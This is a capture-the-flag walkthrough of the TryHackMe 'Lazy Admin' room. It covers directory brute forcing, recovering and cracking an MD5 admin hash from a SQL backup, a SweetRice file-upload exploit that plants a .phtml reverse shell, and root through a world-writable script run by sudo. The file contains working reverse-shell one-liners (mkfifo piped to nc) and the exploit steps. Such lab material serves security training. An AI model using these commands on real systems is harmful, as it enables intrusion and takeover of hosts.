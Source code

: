 # Lazy Admin (THM)

- https://tryhackme.com/room/lazyadmin
- March 3, 2023
- easy

---

## Enumeration

### Nmap

1. 22/ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.18 ((Ubuntu))
   - apache2 ubuntu default page

### HTTP

- directory brute forcing

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -t 128 -c
```

- `content` found

![](images/2023-03-03-00-59-56.png)

- brute force `/content`

```sh
$ ffuf -u http://$IP/content/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -t 128 -c
```

```
_themes
as
attachment
images
inc
index.php
js
```

- /content/\_themes/default

![](images/2023-03-03-01-13-22.png)

- /content/as/

![](images/2023-03-03-01-15-42.png)

- /content/inc/

![](images/2023-03-03-01-20-06.png)

- sql backup file

![](images/2023-03-03-01-21-57.png)

- download mysql backup file
- it is a php script for sql database
- interesting lines

```
  14 => 'INSERT INTO `%--%_options` VALUES(
    \'1\',
    \'global_setting\',
    \'a:17:{
        s:4:\\"name\\";
        s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";
        s:10:\\"Lazy Admin\\";
        s:5:\\"title\\";
        s:0:\\"\\";
        s:8:\\"keywords\\";
        s:8:\\"Keywords\\";
        s:11:\\"description\\";
        s:11:\\"Description\\";
        s:5:\\"admin\\";
        s:7:\\"manager\\";
        s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";
  ...
  s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

- crack the password may be md5
- passwd -> 42f749ade7f9e195bf475f37a44cafcb:xxxxxxxxxxx:MD5PLAIN

- enter the `/content/as/` -> with `manager:xxxxxxxxxxxx`

- from searchsploit found `arbitary file upload` vuln is found for `sweetrice 1.5`
- `searchsploit -m php/webapps/40716.py`
- in that python file, we can upload reverse shell files via `r.post('http://' + host + '/as/?type=media_center&mode=upload', files=file)`

![](images/2023-03-03-01-53-54.png)

- if file extension is php, there is no upload file in `/content/attachment/`
- change file extension to .phtml, uploaded file can be found at `http://$IP/content/attachment/`

- Listen at your machine with nc

```sh
nc -vnlp 4242
```

- curl request to uploaded file

```sh
curl http://$IP/content/attachment/php_shell.phtml
```

## User Access

- shell with `www-data` user access will get
- inside shell,

```sh
www-data@THM-Chal:/$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

www-data@THM-Chal:/$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

www-data@THM-Chal:/$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

www-data@THM-Chal:/$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

1. www-data can run `sudo /usr/bin/perl /home/itguy/backup.pl` with no password
2. backup.pl run `sh /etc/copy.sh`
3. `/etc/copy.sh` has write access to anyone


## Root Access

- so, change the IP:PORT copy.sh file to our local machine IP:PORT that will listen with nc

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4444 >/tmp/f
```

![](images/2023-03-03-02-23-13.png)

- for flag,

```sh
$ cat /home/itguy/user.txt

$ cat /root/root.txt

```

- run linpeas to read the linpeas output later to be familiar with it.
